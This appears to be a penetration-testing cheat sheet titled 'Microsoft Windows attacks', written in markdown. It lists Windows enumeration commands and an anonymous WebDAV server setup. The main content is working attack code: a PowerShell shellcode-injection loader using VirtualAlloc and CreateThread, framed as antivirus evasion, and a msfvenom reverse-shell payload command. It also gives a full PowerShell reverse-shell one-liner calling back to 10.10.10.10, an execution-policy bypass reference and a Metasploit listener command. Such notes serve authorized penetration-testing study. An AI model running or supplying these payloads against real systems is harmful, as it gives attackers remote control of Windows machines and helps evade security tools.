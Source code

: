 # Microsoft Windows attacks

## Cmd

```
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
find /c /v "" file.txt
net user
net localgroup
```

## WebDAV

```
pip install wsgidav
mkdir mywebdav
.local/wsgidav --host=0.0.0.0 --auth=anonymous --port 80 --root ./mywebdav
```

## AV

### Powershell

Find file:
```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
```

Memory injection
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = someshellcode;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=IpAtt LPORT=PortAtt -f powershell -v sc
```

### One-liner

- source: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
- command:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- base64: https://github.com/darkoperator/powershell_scripts/blob/master/README
- execution policy (see ByPAss): https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.3

## Shellter

- link: https://www.shellterproject.com/

### Msf listener

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST AttIP;set LPORT AttPort;run;"
```



